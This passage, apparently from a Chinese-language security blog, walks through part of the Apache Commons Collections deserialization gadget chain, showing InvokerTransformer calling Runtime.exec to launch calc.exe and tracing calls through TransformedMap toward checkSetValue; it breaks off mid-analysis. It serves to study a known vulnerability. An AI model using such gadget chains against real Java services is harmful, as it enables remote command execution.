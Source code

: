 

可以尝试用这个方法弹个计算器

```java
 Runtime r = Runtime.getRuntime();
 new InvokerTransformer("exec", new Class[]{String.class}, new Object[] {"calc.exe"}).transform(r);
```

成功执行！

<img src="https://raw.githubusercontent.com/todis21/image/main/202304051555629.png" alt="image-20230404190713998" style="zoom:50%;" />



现在相当于获取了链子的末端[危险方法：transform]，看看有哪些类调用了transform，这样我们才能往上走，Alt+F7

可以看到有19个调用，经过一番查找，找到TransformedMap

![image-20230404192653822](https://raw.githubusercontent.com/todis21/image/main/202304051555610.png)



```java
protected Object checkSetValue(Object value) {
     return valueTransformer.transform(value);
 }
```

`valueTransformer`是构造函数传来的，`value`还不能确定能不能控制

查看`TransformedMap`的构造函数：

```java
protected TransformedMap(Map map, Transformer keyTransformer, Transformer valueTransformer) {
   super(map);
   this.keyTransformer = keyTransformer;
   this.valueTransformer = valueTransformer;
}
```

该方法继承自 Map 接口的实现类，用于对 Map 中的 key 和 value 进行转换操作。其中，构造方法接收一个 Map 对象 map，以及两个 Transformer 对象 keyTransformer 和 valueTransformer，分别用于对 Map 中的 key 和 value 进行转换



因为这个构造函数是`protected`类型的，只能在类内部和子类中访问，看看哪个方法调用了它

直接往上一个方法就看到了,这里直接完成了上一个函数的操作，并且是`public static`

```java
public static Map decorate(Map map, Transformer keyTransformer, Transformer valueTransformer) {
      return new TransformedMap(map, keyTransformer, valueTransformer);
 }
```

到这里，我们是可以直接调用`decorate`方法，但是还没找到让程序执行到`checkSetValue` 的方式

查看一下有哪些方法调用了`checkSetValue`,直接Alt+F7

![image-20230404200924860](https://raw.githubusercontent.com/todis21/image/main/202304051555228.png)

找到了，并且只有一个，在`AbstractInputCheckedMapDecorator.java`中,如下
